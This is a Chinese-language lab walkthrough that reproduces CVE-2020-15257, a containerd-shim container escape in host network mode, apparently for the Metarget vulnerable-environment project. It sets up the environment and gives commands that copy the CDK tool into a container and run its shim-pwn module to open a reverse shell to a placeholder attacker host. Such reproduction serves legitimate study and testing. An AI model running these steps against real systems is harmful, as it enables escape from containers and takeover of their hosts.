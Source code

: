 # Containerd漏洞导致容器逃逸（CVE-2020-15257）

## 场景介绍

Containerd是一个控制runC的守护进程，提供命令行客户端和API，用于在一个机器上管理容器。

在版本1.3.9之前和1.4.0~1.4.2的Containerd中，由于在**网络模式为host**的情况下，容器与宿主机共享一套Network namespace ，此时containerd-shim API暴露给了用户，而且访问控制仅仅验证了连接进程的有效UID为0，但没有限制对抽象Unix域套接字的访问，刚好在**默认情况下，容器内部的进程是以root用户启动**的。在两者的共同作用下，容器内部的进程就可以像主机中的containerd一样，连接containerd-shim监听的抽象Unix域套接字，调用containerd-shim提供的各种API，从而实现容器逃逸。

## 环境搭建

漏洞环境准备：

```bash
./metarget cnv install cve-2020-15257
```

## 漏洞复现

使用以下命令启动容器:

```bash
sudo docker run -it --net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令`cat /proc/net/unix|grep -a "containerd-shim"`，查看结果确认是否可看到抽象命名空间Unix域套接字:

![image-20210618151008778](images/1.png)

在攻击端监听1234端口，然后下载漏洞利用工具[CDK](https://github.com/cdk-team/CDK)，并将其传入容器/tmp目录下：

```bash
sudo docker cp cdk_linux_amd64 15257:/tmp
sudo docker exec -it 15257 bash
```

运行工具，执行反弹shell命令,验证得到一个宿主机的shell:

```bash
cd /tmp
./cdk_linux_amd64 run shim-pwn reverse attacker-ip port
```

注：

关于该漏洞在利用时出现类似以下内容的问题，可以暂时参考[issue #74](https://github.com/brant-ruan/metarget/issues/74)。

```
rpc error: code = Unknown desc = OCI runtime create failed: exec: "runc": executable file not found in $PATH
```

## 参考文献

1. https://mp.weixin.qq.com/s/WmSaLPnG4o4Co1xRiYCOnQ
2. https://www.cdxy.me/?p=837
